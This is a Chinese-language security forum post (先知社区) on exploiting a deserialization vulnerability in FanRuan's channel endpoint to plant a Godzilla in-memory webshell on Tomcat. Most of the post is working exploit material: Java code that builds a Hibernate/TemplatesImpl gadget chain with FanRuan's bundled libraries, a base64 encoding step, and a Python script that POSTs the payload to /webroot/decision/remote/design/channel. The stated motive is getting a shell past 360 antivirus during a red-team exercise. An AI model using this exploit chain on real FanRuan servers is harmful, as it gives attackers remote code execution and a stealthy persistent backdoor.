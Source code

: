 

# 帆软 channel 反序列化注入哥斯拉内存马 - 先知社区

帆软 channel 反序列化注入哥斯拉内存马

- - -

## 前言

在之前某次攻防演练中发现帆软 channel 反序列化漏洞，但是存在 360，没能拿到 shell，所以研究了一下帆软注入内存马。

## 生成内存马字节码文件

使用[Java Memshell Generator 工具](https://github.com/pen4uin/java-memshell-generator-release)生成 Tomcat Filter 类型的内存马字节码文件。

[![](assets/1702520954-315664187fdfdc360ffe4767a8188678.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141549-0f8266c2-997f-1.png)

用 IDEA 打开生成的.class 文件，然后将其代码复制到.java 文件中。继承一下`AbstractTranslet`（因为使用 TemplatesImpl 类利用）。再简单分析一下几个参数，`getBase64String`方法返回的是实现哥斯拉 webshell 的类，`getUrlPattern`返回的内容是 Filter 的有效路径，`getClassName`返回的应该是注入器类名，对比上图内存马类名和注入器类名，作者好像写反了。这里就不对内存马注入的原理进行研究了，直接开始生成 exp。

[![](assets/1702520954-5a789422708d8b9a4bce4c251eccd4c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141618-2093120e-997f-1.png)

## 反序列化利用 exp 生成

使用 hibernate1 反序列化利用链生成 exp，因为帆软的包和正常 hibernate 利用链的包名有所区别，所以需要引入帆软的依赖生成 exp。

我引入了以下两个 jar 包（实际上只需要引用 fine-third-10,0.jar 这个即可）。

[![](assets/1702520954-fa750bf3d248af6981c31033a215f8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141628-26ef2854-997f-1.png)

使用 javassist 获取利用类的字节码。

[![](assets/1702520954-5e61c6ba4239fc4cf517f7bea15bc9b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141637-2c46afca-997f-1.png)

生成 exp 代码：

```bash
import com.fr.third.org.hibernate.engine.spi.TypedValue;
import com.fr.third.org.hibernate.type.ComponentType;
import com.nqzero.permit.Permit;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.reflect.ReflectionFactory;
import util.SerialUtil;

import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.zip.GZIPOutputStream;

public class hibernateFR {
    public static void main(String[] args) throws Exception {
        byte[] code = SerialUtil.getBytecodes();
        TemplatesImpl obj = new TemplatesImpl();
        SerialUtil.setFieldValue(obj, "_bytecodes", new byte[][] {code});
        SerialUtil.setFieldValue(obj, "_name", "test");
        SerialUtil.setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Class clazz = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Constructor constructor = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor);
        Constructor pojoct = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz, constructor);
        Permit.setAccessible(pojoct);
        Object pojoCT = pojoct.newInstance();

        Class clazz1 = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");
        Class clazz4 = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor constructor4 = clazz4.getDeclaredConstructor(Class.class, String.class, Method.class);
        Object getter = constructor4.newInstance(obj.getClass(), "outputProperties", obj.getClass().getMethod("getOutputProperties"));
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        Field f = clazz1.getDeclaredField("getters");
        f.setAccessible(true);
        f.set(pojoCT, getters);

        Class clazz3 = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Constructor constructor2 = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor2);
        Constructor constructor3 = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz3, constructor2);
        ComponentType componentType = (ComponentType) constructor3.newInstance();
        TypedValue typedValue = new TypedValue(componentType, null);
        SerialUtil.setFieldValue(componentType, "componentTuplizer", pojoCT);

        SerialUtil.setFieldValue(componentType, "propertySpan", 1);

        HashMap<Object, String> map = new HashMap<>();
        map.put(typedValue, "1jzz");
        //Object template = Gadgets.createTemplatesImpl("TomcatEcho");
        SerialUtil.setFieldValue(typedValue, "value", obj);


        //SerialUtil.unserial(SerialUtil.serial(map));
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(new FileOutputStream("生成exp的文件路径"));
        byte[] data = SerialUtil.serial(map).toByteArray();
        gzipOutputStream.write(data);
        gzipOutputStream.close();
    }
}
```

读取生成的序列化文件，并进行 base64 编码，得到利用 payload，由于太长了，这里我就不放上来了。

```bash
def encode_ser():
    with open("shell", "rb") as f:
        binary = f.read()
        data = base64.b64encode(binary)
        print(data)

if __name__ == '__main__':
    encode_ser()
```

使用脚本利用：

```bash
import base64
import requests

def cmd():
    proxies = {
        'http': 'http://127.0.0.1:8081',
        'https': 'http://127.0.0.1:8081'}

    try:

        burp0_url = "http://localhost:8080/webroot/decision/remote/design/channel"
        burp0_headers = {"Content-Type": "application/x-www-form-urlencoded"}

        b = b"生成payload字节码的base64编码"

        burp0_data = base64.b64decode(b)

        res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=3, proxies=proxies)
    except Exception as e:
        print(e)


if __name__ == "__main__":
    cmd();
```

[![](assets/1702520954-c51ceee3992e6ad4bf18db2194a76926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141707-3e2fcc76-997f-1.png)

连接内存马成功：

[![](assets/1702520954-b925596ecbb9ad8070398c4a2e0715f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141716-43852e96-997f-1.png)

# 参考

[https://github.com/pen4uin/java-memshell-generator-release](https://github.com/pen4uin/java-memshell-generator-release)
